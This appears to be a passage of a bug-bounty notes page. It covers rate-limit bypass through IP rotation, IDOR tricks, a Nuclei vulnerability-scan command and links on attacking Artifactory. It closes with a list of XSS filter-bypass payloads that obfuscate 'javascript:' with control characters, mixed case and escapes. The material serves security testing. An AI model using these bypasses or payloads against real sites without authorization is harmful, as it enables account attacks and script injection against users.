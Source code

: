 

#### Rate Limiting bypass with IP Rotate

```
Sometimes rate limiting for authentication or OTP are based off source IP, this can be bypassed using Amazon API's and IP Rotate. 

https://portswigger.net/bappstore/2eb2b1cb1cf34cc79cda36f0f9019874
```



#### IDOR Tricks & Bypasses

```
If fields are passed in clientside requests try another db Field - https://twitter.com/m0chan98/status/1286215630253850625/photo/1


https://www.notion.so/IDOR-Attack-vectors-exploitation-bypasses-and-chains-0b73eb18e9b640ce8c337af83f397a6b

```


#### Nuclei

```powershell
Can take numerous templates across various hosts to find known vulnerabilities. 

Requires you specify a custom user agent unless Cloudfare drops all traffic.

nuclei -l newsubs.httprobe -c 60 -t /root/tools/BotTemplates/ -o newsubs.httprobe.nuclei -H "User-Agent: User-Agent: Mozilla/5.0 Windows NT 10.0 Win64 AppleWebKit/537.36 Chrome/69.0.3497.100"
```



#### Artifactory Stuff

```powershell
#https://www.errno.fr/artifactory/Attacking_Artifactory

```


#### Cross-Site Scripting Bit n Bobs

```powershell
Got a lot to add here (naturally) but for the time being just noting down this bypass.

If exploiting <a href></a> xss and "javasript" is blocked by WAF or URL then try the below.

Add any number of \n \t or \r in the middle
java\nscript:

Add characters from \x00- \x20 at the beginning

\x01javascript:


Randoomize the case

jaVAscrIpT:

Can also use the below to get rid of the word JavaScript all together

\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)

\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
```